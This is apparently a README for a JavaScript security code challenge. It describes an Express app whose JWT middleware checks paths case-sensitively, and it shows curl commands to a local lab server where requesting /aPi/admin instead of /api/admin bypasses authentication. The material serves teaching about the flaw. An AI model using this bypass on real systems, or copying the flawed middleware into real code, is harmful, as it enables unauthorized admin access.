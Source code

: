 # day 4 javascript
We have a small javascript application that developed by expressjs framework. ExpressJS routing provide case-insensitive routing by default.
But our team developed a middleware for validation of JWT tokens with `startsWith` function that are working case-sensitive by default.

# build & run
```bash
git clone https://github.com/ahmetak4n/sonarsource-code-challanges.git
cd sonarsource-code-challanges/day4
npm install
node app.js
```

# verify the vulnerability
You can't access `/api/admin` path because we don't have any valid JWT token
``` bash
curl  -X $'GET' \
    -H $'Host: localhost:1337' -H $'Upgrade-Insecure-Requests: 1' -H $'Connection: keep-alive' \
    -H $'User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.6478.127 Safari/537.36' \
    $'http://localhost:1337/api/admin'
```
----
You can bypass the token validation with following way
```bash
curl  -X $'GET' \
    -H $'Host: localhost:1337' -H $'Upgrade-Insecure-Requests: 1' -H $'Connection: keep-alive' \
    -H $'User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.6478.127 Safari/537.36' \
    $'http://localhost:1337/aPi/admin'
```
